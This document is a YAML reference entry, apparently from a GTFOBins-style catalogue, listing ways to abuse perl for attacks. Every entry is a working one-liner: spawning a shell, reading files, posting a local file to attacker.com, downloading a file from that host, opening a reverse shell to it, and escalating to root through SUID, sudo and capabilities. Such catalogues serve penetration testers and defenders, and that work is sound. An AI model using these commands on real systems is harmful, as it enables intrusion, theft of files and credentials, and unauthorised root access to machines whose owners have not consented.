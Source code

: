 ```yaml
---
functions:
  shell:
    - code: perl -e 'exec "/bin/sh";'
  file-read:
    - code: |
        LFILE=file_to_read
        perl -ne print $LFILE
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s = new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"}, PeerPort=>$ENV{"RPORT"}, Proto=>"tcp") or die;open(my $file, "<", $ENV{"LFILE"}) or die;$content = join("", <$file>);close($file);$post_data = "d=" . $content;$headers = "POST " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: " . length($post_data) . "\r\nConnection: close\r\n\r\n";print $s $headers . $post_data;while (<$s>) { }close($s);'
  file-download:
    - description: Download a file via HTTP. For example, run `python3 -m http.server 8080` on the serving side.
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s=new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"},PeerPort=>$ENV{"RPORT"},Proto=>"tcp") or die; print $s "GET " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nMetadata: true\r\nConnection: close\r\n\r\n"; open(my $fh, ">", $ENV{"LFILE"}) or die; $in_content = 0; while (<$s>) { if ($in_content) { print $fh $_; } elsif ($_ eq "\r\n") { $in_content = 1; } } close($s); close($fh);'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid:
    - code: ./perl -e 'exec "/bin/sh";'
  sudo:
    - code: sudo perl -e 'exec "/bin/sh";'
  capabilities:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```

